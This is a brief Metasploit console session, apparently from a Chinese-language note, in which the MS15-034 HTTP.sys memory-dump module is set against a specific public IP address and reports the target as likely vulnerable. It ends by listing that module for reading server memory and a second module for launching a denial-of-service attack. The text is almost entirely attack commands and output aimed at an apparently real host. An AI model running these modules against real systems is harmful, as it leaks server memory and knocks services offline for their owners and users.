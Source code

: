 msf >
```
 use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
```

msf auxiliary(scanner/http/ms15_034_http_sys_memory_dump) > 
```
set rhosts 218.94.138.251
```
```
rhosts => 218.94.138.251
```

msf auxiliary(scanner/http/ms15_034_http_sys_memory_dump) >
```
 run

```
 
[+] Target may be vulnerable...  #验证存在
[+] Stand by...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed




    use auxiliary/scanner/http/ms15_034_http_sys_memory_dump    # 读取服务器内存数据
    use auxiliary/dos/http/ms15_034_ulonglongadd    # 进行 dos 攻击
